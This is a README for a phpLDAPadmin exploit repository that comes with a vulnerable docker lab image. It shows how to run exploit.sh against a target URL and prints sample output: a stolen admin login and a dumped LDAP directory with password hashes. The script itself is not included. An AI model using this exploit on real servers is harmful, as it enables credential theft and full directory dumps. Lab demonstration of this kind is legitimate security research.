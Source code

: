 # phpLdapAdmin multiple vulns

[![Docker Pulls](https://img.shields.io/docker/pulls/vulnerables/phpldapadmin-remote-dump.svg?style=plastic)](https://hub.docker.com/r/vulnerables/phpldapadmin-remote-dump/)

[phpLdapAdmin](www.phpldapadmin.org) is a Web-based LDAP browser to manage your
LDAP server in its [last
version](https://github.com/leenooks/phpLDAPadmin/tree/733a10a1c57568bd5294d527f324fb220c8ee76c)
has a remote vulnerability that when exploited can lead to remote dumping the
whole LDAP server, inclusing user accounts and their respective passwords.

# Exploit

![execution](execution.gif)

To run this exploit run `./exploit.sh http://host/htdocs/` (or the directory
containing the `cmd.php` file). Example:

``` 
./exploit.sh http://localhost:9999/htdocs/
[+] phpLdap remote exploit by OPSXCQ
    Get the source code at https://github.com/opsxcq/
[+] Trying to get the cookie value from http://localhost:9999/htdocs/
[*] Login stolen cn=admin,dc=vulnerable,dc=strm,dc=sh with password admin
[+] Logging in with the stolen credentials
[+] Dumping the database to CSV
"dn","dc","o","objectclass","cn","description","userpassword","gidnumber","givenname","homedirectory","loginshell","sn","uid","uidnumber"
"dc=vulnerable,dc=strm,dc=sh","vulnerable","strm.sh","top | dcObject | organization","","","","","","","","","",""
"cn=admin,dc=vulnerable,dc=strm,dc=sh","","","simpleSecurityObject | organizationalRole","admin","LDAP administrator","{SSHA}QUtf9EKvsgZbnYJt9cTd61qp1OPeu8An","","","","","","",""
"cn=users,dc=vulnerable,dc=strm,dc=sh","","","posixGroup | top","users","","","500","","","","","",""
"cn=Joe Hack,cn=users,dc=vulnerable,dc=strm,dc=sh","","","inetOrgPerson | posixAccount | top","Joe Hack","","{MD5}I7QiLSYTonZdTUMtLWXojg==","500","Joe","/home/users/jhack","/bin/bash","Hack","jhack","1000"
```

# Vulnerable environment

To simulate this attack you can use a vulnerable docker image. If you have
docker installed, just run:

```
docker run --rm -it -p 80:80 vulnerables/phpldapadmin-remote-dump
```

# Credits

This vulnerability was disclosed by [@le_keksec](https://twitter.com/le_keksec)
[on twitter](https://twitter.com/le_keksec/status/985660569989668866) and their
exploit code is included in this repo, and also can be found
[here](https://pastebin.com/raw/Rf002LdV).


# Disclaimer

This or previous program is for Educational purpose ONLY. Do not use it without
permission. The usual disclaimer applies, especially the fact that me (opsxcq)
is not liable for any damages caused by direct or indirect use of the
information or functionality provided by these programs. The author or any
Internet provider bears NO responsibility for content or misuse of these
programs or any derivatives thereof. By using these programs you accept the fact
that any damage (dataloss, system crash, system compromise, etc.) caused by the
use of these programs is not opsxcq's responsibility.

